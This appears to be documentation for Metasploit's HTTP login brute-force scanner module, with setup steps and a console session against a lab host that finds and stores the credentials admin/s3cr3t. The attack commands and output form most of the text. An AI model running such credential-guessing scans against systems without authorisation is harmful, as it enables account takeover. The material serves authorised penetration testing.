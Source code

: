 ## Description

This module is a brute-force login scanner that attempts to authenticate to a system using HTTP authentication. More info can be found in [cve-1999-0502](https://www.cvedetails.com/cve/cve-1999-0502).

## Verification Steps

1. Do: ```use auxiliary/scanner/http/http_login```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

```
msf > use auxiliary/scanner/http/http_login
msf auxiliary(http_login) > set AUTH_URI /xampp/
AUTH_URI => /xampp/
msf auxiliary(http_login) > set RHOSTS 192.168.1.201
RHOSTS => 192.168.1.201
msf auxiliary(http_login) > set VERBOSE false
VERBOSE => false
msf auxiliary(http_login) > run

[*] Attempting to login to http://192.168.1.201:80/xampp/ with Basic authentication
[+] http://192.168.1.201:80/xampp/ - Successful login 'admin' : 's3cr3t'
[*] http://192.168.1.201:80/xampp/ - Random usernames are not allowed.
[*] http://192.168.1.201:80/xampp/ - Random passwords are not allowed.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(http_login) >
```

**Checking the credentials stored**

```
msf auxiliary(http_login) > creds
Credentials
===========

host           origin         service        public  private  realm  private_type
----           ------         -------        ------  -------  -----  ------------
192.168.1.201  192.168.1.201  80/tcp (http)  admin   s3cr3t          Password

msf auxiliary(http_login) >
```
